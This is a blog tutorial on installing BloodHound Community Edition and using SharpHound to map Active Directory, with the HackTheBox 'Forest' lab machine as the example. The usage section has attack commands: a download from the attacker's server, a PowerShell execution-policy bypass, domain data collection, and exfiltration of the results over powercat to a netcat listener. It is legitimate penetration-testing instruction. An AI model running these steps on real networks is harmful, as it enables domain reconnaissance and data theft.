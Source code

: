 
---
title: "How to Setup BloodHound Community Edition"
summary: "Quick explanation on how to get BloodHound up and running in a few minutes! This post include a step by step installation guide of **BloodHound**, as well as downloading **SharpHound** and uploading it to a machine in order to map out an Active Directory Network."
categories: ["Post","Blog",]
tags: ["post","bloodhound","sharphound"]
#externalUrl: ""
#showSummary: true
draft: false
date: 2025-01-11

---

## BloodHound 
**BloodHound** is a powerful and widely used tool in the field of cybersecurity, particularly for penetration testers in _Corporative Enviroments_. It is designed to map and analyze Active Directory structures, helping identify security misconfigurations and potential attack paths that an adversary could exploit to escalate privileges or gain access to sensitive resources.

**BloodHound** operates by collecting and visualizing relationships within an AD domain. These relations include group memberships, user permissions, trust relationships, and more. The tool’s strength lies in its ability to uncover complex chains of privileges that might be invisible to administrators manually auditing AD security.

We will do a quick installation step by step of the Community Version of **BloodHound**, as well and a small step by step tutorial on how to run both **BloodHound** and **SharpHound** taking as an example the Forest Machine from HackTheBox. Check out my post of the machine if you haven't already!

Let's begin!

- - -
## Installation
First, we need to install _Docker_:

```bash
kali@kali:~$ sudo apt install -y docker.io

kali@kali:~$ sudo systemctl enable docker --now
```

Then, create the _docker_ group if it does not exist:

```bash
kali@kali:~$ sudo groupadd docker
```

Add your user to the _docker_ group:

```bash
kali@kali:~$ sudo usermod -aG docker $USER
```

Now, install **docker-compose** form [github](https://github.com/docker/compose/). Also, remember to give execution rights to the binary and add it to the `/usr/bin` directory.

```bash
kali@kali:~$ mv ./docker-compose-linux-aarch64 docker-compose
kali@kali:~$ chmod +x ./docker-compose
kali@kali:~$ mv ./docker-compose /usr/bin/
```

Lastly, we need to copy the **BloodHound** `docker-compose.yml` file to save it locally:

```bash
kali@kali:~$ sudo wget https://ghst.ly/getbhce -O docker-compose.yml
kali@kali:~$ docker-compose up
```

**BloodHound** will be available on port 8080.

- - -
## SharpHound
**SharpHound** is the data collection component of BloodHound. It is a C# tool designed to gather information from Active Directory environments, which is then used by BloodHound to map and analyze attack paths. SharpHound collects data such as user sessions, group memberships, ACLs, and trust relationships, giving penetration testers and security analysts a detailed view of the environment.

The collected data is stored in JSON files, which are later imported into BloodHound for visualization and analysis. Together, SharpHound and BloodHound are a powerful duo for identifying and understanding security weaknesses in AD domains.

- - -
## BloodHound  and SharpHound Usage

First, let's log into **BloodHound**. We have it already running, so we need to access it on `http://localhost:8080`.

![bloodhound1](/img/bloodhound/bloodhound1.png)

> The first time we access **BloodHound**, we will need to input the random generated password found on the terminal window where `docker-compose` is running. Then, we will need to change it. The default user is **admin**.

![bloodhound9](/img/bloodhound/bloodhound9.png)

Now on the _Download Collectors_ tab, we can download the latest version of **SharpHound**:

![bloodhound3](/img/bloodhound/bloodhound3.png)

Here, select **SharpHound**, and we’re almost ready to start collecting data! Just a few more steps:

![bloodhound4](/img/bloodhound/bloodhound4.png)

Next, upload the **SharpHound** executable to the Windows machine whose Active Directory you intend to map. From our Attacker Machine, we serve **SharpHound** from a _Python_ Server:

```bash
┌──(s3n㉿kali)-[/opt/bloodhound/sharphound]
└─$ python3 -m http.server 80

Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

From the Windows Machine, we download **SharpHound** with the following command:

```powershell
PS C:\Users\svc-alfresco\Desktop> iwr -uri http://10.10.14.18/SharpHound.ps1 -Outfile SharpHound.ps1
```

After transfer it to the Windows Machine, we can import it to PowerShell:

```powershell
PS C:\Users\svc-alfresco\Desktop> powershell -ep bypass

PS C:\Users\svc-alfresco\Desktop> Import-Module .\Sharphound.ps1
```

Now, we can run the script to collect all the information from the domain. **SharpHound** primarily relies on `LDAP` queries to gather data from Active Directory. Since LDAP queries are a standard part of domain communication, any domain-authenticated user can execute them, which is why SharpHound doesn’t require administrative privileges for most of its operations.

```powershell
PS C:\Users\svc-alfresco\Desktop> Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\svc-alfresco\Desktop\ -OutputPrefix "forest"
```

After executing, we'll see a **zip** file with all the information. That's what we need to transfer back to our attacking machine. The .bin file that **BloodHound** generates is a binary file used as a cache for preprocessed data. When you import JSON files collected by SharpHound into BloodHound, it processes the data and stores it in a Neo4j database. 

The `.bin` file serves as a local cache of this processed data to improve performance, but we don't necesarilly need to transfer it back to our machine, so we will ignore it.

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> ls


    Directory: C:\Users\svc-alfresco\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        1/10/2025   9:29 AM          43554 forest_20250110092905_BloodHound.zip
-a----        1/10/2025   9:15 AM        1942029 SharpHound.ps1

```

We can use our favorite transfer method, I will use `powercat.exe`:

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> powercat -c 10.10.14.18 -p 4444 -i C:\Users\svc-alfresco\Desktop\forest_20250110092905_BloodHound.zip
```

On our Attacking Machine, we need to open a `netcat` listener in order to receive the data:

```bash
┌──(s3n㉿kali)-[/opt/bloodhound]
└─$ sudo nc -nlvp 4444 > bloodhound.zip   
listening on [any] 4444 ...
connect to [10.10.14.18] from (UNKNOWN) [10.10.10.161] 50906
```

Once we have the zip file locally on our machine, let's upload it to **BloodHound**. First, press the _Administration_ option.
![bloodhound2](/img/bloodhound/bloodhound2.png)

Import the zip file in the _File Ingest_ option, in the _Data Collection_ section:

![bloodhound10](/img/bloodhound/bloodhound10.png)

Click and Select the _zip_ file

![bloodhound5](/img/bloodhound/bloodhound5.png)

Nice! It was succesfully uploaded.

![bloodhound6](/img/bloodhound/bloodhound6.png)

Teaching how to do queries with **BloodHound** it out of the scope of this post, but let's run a quick "_Shortest Paths to Domain Admins_" query to check if the ingestion of the data was successful.
![bloodhound7](/img/bloodhound/bloodhound7.png)

It works! You now have a fully functional **BloodHound** instance up and running, ready to map out and analyze your Active Directory environment. 

## Stopping the Instance

Stopping the instance is as easy as pressing `Ctrl+C` on the terminal window where `docker-compose` is running.

![bloodhound8](/img/bloodhound/bloodhound8.png)

If you want to set it up again, just do `docker-compose up` and you are good to go.

I hope this guide was helpful in getting everything set up smoothly, as setting up a **BloodHound** environment could be tricky at first. Give it a try! 